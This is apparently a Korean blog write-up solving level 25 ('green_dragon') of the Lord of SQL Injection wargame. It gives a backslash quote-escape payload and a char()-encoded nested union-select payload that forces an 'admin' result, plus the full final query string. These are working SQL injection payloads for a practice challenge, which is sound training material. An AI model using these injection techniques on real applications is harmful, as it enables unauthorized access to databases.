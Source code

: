 ```yaml
---
title: LOS - 25번 green_dragon
category: [Wargame, Lord of SQL Injection]
---
```


# [25] green_dragon

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcvzy13%2FbtrocSsciXb%2FA4XrMQJ1aQFkquIV3RGSK1%2Fimg.png">

## 풀이

[1] id 페이로드

```
\
```


[2] pw 페이로드

```
union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

<br>

따라서, 최종 페이로드는 다음과 같다.

```
?id=\&pw=union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

## 결과

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbZVUrx%2FbtrocqCH4Rh%2FBlqAkOMkvzBAm7s9AwJQUk%2Fimg.png">